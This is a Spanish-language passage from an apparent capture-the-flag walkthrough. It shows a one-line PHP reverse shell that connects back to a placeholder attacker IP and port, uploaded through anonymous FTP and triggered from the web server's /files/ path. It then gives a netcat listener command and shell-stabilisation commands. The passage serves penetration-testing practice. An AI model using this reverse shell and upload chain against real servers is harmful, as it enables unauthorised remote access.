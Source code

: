 Dentro de el contendra lo siguiente...

```html
<html>

<head>
        <title>onion</title>
</head>

<body>
        <h1>GET READY TO RECEIVE A CALL</h1>

</body>

</html>
```

Es la misma estructura que la de la pagina web, por lo que al parecer estan comunicados, si hacemos lo siguiente...

Crearemos un archivo `.php` con una `Reverse Shell` y lo subiremos al `ftp` ya que estan comunicados...

> Shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Una vez creado el archivo, nos metemos al `ftp` y lo subimos...

```shell
ftp anonymous@<IP>
```

```shell
put shell.php
```

Una vez subido, nos vamos a la pagina web y nos vamos a la ruta de `/files/` en la `URL`, si lo recargamos nos aparecera nuestro archivo `shell.php`, estando a la escucha lo ejecutamos desde el navegador web...

```shell
nc -lvnp <PORT>
```

Una vez ejecutado, haremos conexion con la shell de `www-data`, por lo que la sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
